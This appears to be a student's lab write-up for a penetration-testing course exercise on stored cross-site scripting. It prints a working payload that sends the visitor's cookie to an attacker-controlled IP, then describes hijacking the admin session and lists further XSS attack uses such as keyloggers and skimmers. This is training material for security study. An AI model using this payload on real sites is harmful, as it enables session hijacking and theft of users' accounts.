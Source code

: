 ### 9.4.2.5 Exercises
#### 1. Exploit the XSS vulnerability in the sample application to get the admin cookie and hijack the session. Remember to use the PowerShell script on your Windows 10 lab machine to simulate the admin login.

- Submitted to http://192.168.216.10/feedback.php

  ```html
  <script>new Image().src="http://192.168.119.216/cool.jpg?output="+document.cookie;</script>
  ```

- Used admin_login.ps1 script provided in lab as-is to simulate admin login

- Admin User Client Request in NetCat
  ![image-20200624211317777](.9.4.2.5.assets/image-20200624211317777.png)

- Modified cookie in browser on attacker machine
  ![image-20200624211458444](.9.4.2.5.assets/image-20200624211458444.png)

- Visited URL http://192.168.216.10/admin.php
  ![image-20200624211549151](.9.4.2.5.assets/image-20200624211549151.png)

#### 2. Consider what other ways an XSS vulnerability in this application might be used for attacks.

- Exploit Java/browser vulnerabilities
- Keystroke loggers
- Phishing attacks
- Port scanning
- Content scrapers/skimmers

#### 3. Does this exploit attack the server or clients of the site?

Client-side exploit